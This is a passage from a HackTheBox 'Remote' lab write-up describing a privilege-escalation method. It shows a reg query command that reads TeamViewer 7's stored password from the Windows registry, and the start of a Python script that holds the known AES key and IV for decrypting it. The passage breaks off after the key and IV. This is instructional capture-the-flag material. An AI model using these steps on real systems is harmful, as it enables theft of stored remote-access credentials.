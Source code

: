
<h5 align="left">Method 2:</h5>

If we enumerate the fille system we will see that TeamViewer7 is installed. Teamviewer is a remote desktop sharing application that stores it's passwords in the windows registry accessable to low privileged users and encrypted with a known key. There is a detailed writeup <a href="https://whynotsecurity.com/blog/teamviewer/">here</a> as well as a python script to decrypt the password once retrieved from the registery. We can view the registry entry with

```
reg query hklm\software\wow6432node\teamviewer\version7
```

![teamviewer registry](/assets/img/writeups/htb/boxes/remote/remote_teamviewerregistry.png)

If we then run the python decryption script from the above site

```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")
```